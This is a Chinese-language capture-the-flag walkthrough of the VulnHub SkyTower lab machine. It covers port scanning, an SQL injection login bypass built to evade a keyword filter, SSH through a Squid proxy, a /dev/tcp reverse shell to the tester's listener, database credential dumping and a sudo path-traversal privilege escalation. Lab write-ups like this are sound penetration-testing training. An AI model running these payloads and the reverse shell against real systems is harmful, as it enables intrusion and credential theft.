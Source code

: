 ## port scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 12 05:07:23 2024 as: nmap -sT --min-rate 5000 -p- -oN nmap_results/port_scan 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
MAC Address: 08:00:27:9A:C9:AA (Oracle VirtualBox virtual NIC)
```

22端口被过滤状态

```shell
# Nmap 7.94SVN scan initiated Tue Nov 12 05:11:06 2024 as: nmap -sT -sV -sC -O -p22,80,3128 -oN nmap_results/detils_scan 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.0019s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Debian)
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.20
MAC Address: 08:00:27:9A:C9:AA (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
Network Distance: 1 hop
```

vuln scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 12 05:10:14 2024 as: nmap --script=vuln -p22,80,3128 -oN nmap_results/vuln_scan 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00078s latency).

PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.56.101
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://192.168.56.101:80/
|     Form id:
|_    Form action: login.php
| http-sql-injection:
|   Possible sqli for forms:
|     Form at path: /, form's action: login.php. Fields that might be vulnerable:
|_      email
| http-enum:
|_  /login.php: Possible admin folder
3128/tcp open     squid-http
MAC Address: 08:00:27:9A:C9:AA (Oracle VirtualBox virtual NIC)
```

## web

一个登录框

whatweb识别，不是cms，应该是自己写的

测试发现，登录参数`email`存在sql注入，并且有过滤

```
email=' or 1=1--+&password=' or 12=1--+
```

![image-20241113170751097](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113170751097.png)

等号被过滤了，用`like`

```
email=' and '1' like '1%23&password=' and '1' like '1%23
```

利用这种方式将引号闭合，成功登录

![image-20241113171838209](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113171838209.png)

拿到凭据`john:hereisjohn`

## SSH

因为22端口是过滤的，但是有3128端口，一个代理服务，尝试使用3128端口代理登录

```bash
vim /etc/proxychains4.conf
```

写入

> http 192.168.56.101 3128

![image-20241113172510303](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113172510303.png)

登录上去了，但是又掉了

> Funds have been withdrawn:`资金已被撤回`

提示我们，被撤回了

`ssh`命令连接时，可以执行一条命令

```
ssh [user@]hostname 'command'
```

```bash
┌──(root㉿kali)-[~/vulnhub/SkyTower]
└─# proxychains ssh john@192.168.56.101 'whoami;id'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password:
john
uid=1000(john) gid=1000(john) groups=1000(john)
```

成功执行，尝试反弹shell

```shell
proxychains ssh john@192.168.56.101 "sh -i >& /dev/tcp/192.168.56.128/1234 0>&1"
```

```shell
rlwrap nc -lvnp 1234
```

![image-20241113172959845](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113172959845.png)

```shell
cat .bashrc
```

![image-20241113173355069](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113173355069.png)

怪不得登不上去，原来是直接退出了

```bash
mv .bashrc .bashrc.bak
```

将它删除，或者改文件名

```shell
proxychains ssh john@192.168.56.101
```

成功登录

常规提权没有利用点

查看`passwd`文件，发现用户

```
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
```

去web目录数据库账号密码，`login.php`找到账户密码

```php
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
```

`root:root`

![image-20241113174926345](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241113174926345.png)

```
john    hereisjohn
sara  ihatethisjob
william  senseable
```

我登录`sara`用户

```bash
john@SkyTower:/var/www$ su sara
Password:

Funds have been withdrawn
```

还是和之前一样

## sudo 提权

```shell
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

有`cat`，`ls`命令，限制了文件夹，但是可以用`../`穿越目录

```shell
sara@SkyTower:~$ sudo ls /accounts/../root/
flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

拿到root密码：`theskytower`